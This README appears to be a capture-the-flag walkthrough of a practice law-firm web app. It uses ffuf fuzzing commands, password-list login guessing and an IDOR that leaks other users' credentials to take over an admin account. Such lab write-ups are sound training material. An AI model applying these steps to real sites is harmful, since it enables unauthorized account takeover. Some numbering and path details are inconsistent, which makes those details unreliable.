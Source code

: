 VulnLawyers - CTF Walkthrough

📁 Repository Overview

  This repository contains a full walkthrough of the VulnLawyers CTF, solved using only:

  ffuf (directory and subdomain fuzzing)

  Caido (web proxy analysis)

  The methodology follows a clean, repeatable pentest format with all flags captured and documented.

  All screenshots and proof-of-work are stored in the _/screenshots_ directory.

🔧 Tools Used

  ffuf – Fast web fuzzer

  Caido – Web proxy for intercepting and manipulating requests

  Linux shell (Parrot OS)

🔍 Scope

    https://sufrin.ctfi/

🧠 Objective

  Gain access to the VulnLawyers web server, enumerate for vulnerabilities, escalate privileges, and capture all flags.

🛰️ 1. Recon

⚠️ Note: No ports were open for full nmap scan; proceeded directly to web-based fuzzing using known open access.

📂 2. Directory Fuzzing with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/FUZZ_

  Key results:

    /css
    /images
    /login

🌐 3. Subdomain Discovery with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/ -H "Host: FUZZ.sufrin.ctfi"_

  Key result:

    data

  ![Alt_text](https://github.com/0xDarkwaveSiren/Vulnlawyers_0xWalkthrough/blob/main/Screenshots/ffuf2.png?raw=true)

📂 4. Directory Fuzzing with ffuf (Subdomain: data)

  _ffuf -w subdomains.txt -u https://data.sufrin.ctfi/FUZZ_

  Key result:

    /users

🔐 5. Intercept & Analyze with Caido

  Interecepted GET _/users_

  Key finding:

    {
    "users": [{
        "name": "Yusef Mcclain",
        "email": "________________"
    }, {
        "name": "Shayne Cairns",
        "email": "_________________________"
    }, {
        "name": "Eisa Evans",
        "email": "________________________"
    }, {
        "name": "Jaskaran Lowe",
        "email": "_______________________"
    }, {
        "name": "Marsha Blankenship",
        "email": "_________________________"
    }],
    "flag": "[________________________________]"
    }

  Intercepted GET _/login_

  Key finding:

    /lawyers-only

  Intercepted POST _/lawyers-only_ (login attempt)

  Key findings (Structure):

    email=admin&password=admin

🔑 6. Login Access with Caido

  Automated Matrix Payloads with Caido

  Used usernames found in _/users_ domain and _passwords.txt_ file provided by HackingHub

  Gained credentials and access to _/lawyers-only-profile_

🔐 7. Intercept & Analyze with Caido

Intercepted GET _/lawyers-only-profile-details/4_ (attempted change of credentials)

  Key findings: 

  Insecure Direct Object Reference (IDOR)

    {
    "id": 4,
    "name": "___________",
    "email": "_____________________",
    "password": "_____________"
    }

🔓 8. Privilege Escalation 

  Replayed request with Caido

  GET _/lawyers-only-profile-details/2_

  Key findings:

  User that happens to be the case manager

    {
    "id": 2,
    "name": "Shayne Cairns",
    "email": "_______________",
    "password": "______________",
    "flag": "[____________________]"
    }

  Gained access as Shayne Cairns (Case Manger - Admin)

🏁 7. Flags Captured

Flag # 1

  Path: _https://sufrin.ctfi/users_

Flag # 2

  Caido Intercept: GET _/login_

Flag # 3

  Caido Intercept: GET _/users_

Flag # 4

  Staff Portal: _https://sufrin.ctfi/lawyers-only_

Flag # 5

  Caido Request Replay: GET _/lawyers-only-profile-details/2_
  
Flag # 6

  Staff Portal as Shayne Cairns and deleted current case.

📌 Lessons Learned

Efficient use of just 2 tools (ffuf, caido) is enough to fully compromise a box

Importance of analyzing requests carefully in Caido

Logic flaws and poorly implemented login mechanisms are often more exploitable than buffer overflows
